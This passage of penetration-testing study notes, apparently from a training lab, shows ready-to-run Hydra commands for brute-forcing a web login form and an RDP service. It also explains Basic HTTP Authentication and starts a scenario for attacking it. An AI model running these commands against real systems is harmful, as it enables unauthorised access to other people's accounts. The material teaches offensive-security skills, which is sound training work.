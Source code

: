 ### Brute-Forcing a Web Login Form
```bash
DJMC@htb[/htb]$ hydra -l admin -P passwords.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"
```
- **Target**: Web login form at `www.example.com`
- **Description**: Checks for successful login via HTTP status code `302`.

### Advanced RDP Brute-Forcing
```bash
DJMC@htb[/htb]$ hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp
```
- **Target**: RDP service on `192.168.1.100`
- **Description**: Generates and tests passwords with 6–8 characters, including lowercase, uppercase, and numbers.

---

# Basic HTTP Authentication

## Overview
Web applications often employ authentication mechanisms to protect sensitive data and functionalities. **Basic HTTP Authentication** (Basic Auth) is a rudimentary yet common method for securing resources on the web. While easy to implement, its inherent vulnerabilities make it a frequent target for brute-force attacks.

### How It Works
Basic Auth is a challenge-response protocol:
1. **Access Attempt**: A user tries to access a restricted area.
2. **Server Challenge**: The server responds with a `401 Unauthorized` status and a `WWW-Authenticate` header prompting the browser to present a login dialog.
3. **Credentials Submission**: The user provides a username and password, which the browser concatenates into a string (e.g., `username:password`).
4. **Base64 Encoding**: The string is encoded using Base64 and included in the `Authorization` header of subsequent requests:

    ```http
    GET /protected_resource HTTP/1.1
    Host: www.example.com
    Authorization: Basic YWxpY2U6c2VjcmV0MTIz
    ```
5. **Server Validation**: The server decodes the credentials, verifies them, and grants or denies access.

---

## Exploiting Basic Auth with Hydra

### Scenario
The target system employs Basic HTTP Authentication. You know the username (`basic-auth-user`) and will use Hydra to brute-force the password.
